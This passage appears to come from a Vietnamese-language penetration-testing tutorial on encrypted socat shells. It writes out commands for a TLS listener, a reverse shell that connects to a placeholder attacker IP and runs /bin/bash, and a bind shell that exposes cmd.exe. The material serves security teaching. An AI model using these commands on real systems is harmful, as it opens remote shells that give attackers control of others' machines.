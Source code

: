 Bây giờ, khi chúng ta thiết lập trình lắng nghe reverse shell của mình, chúng ta sử dụng:

**Attacker**

```jsx
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

Điều này thiết lập một trình lắng nghe OPENSSL sử dụng chứng chỉ đã tạo của chúng ta. `verify=0` yêu cầu kết nối không cần cố gắng xác thực rằng chứng chỉ của chúng ta đã được ký đúng bởi một cơ quan được công nhận. Xin lưu ý rằng chứng chỉ phải được sử dụng trên bất kỳ thiết bị nào đang lắng nghe.

Để kết nối lại, chúng ta sẽ sử dụng:

**Client**

```jsx
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

### Bind shell

**Client**

```jsx
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

**Attacker**

```jsx
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```

![image.png](Shell%209036fccc25a74d9cbe863c9f4abb95c3/image%201.png)

---

---

---
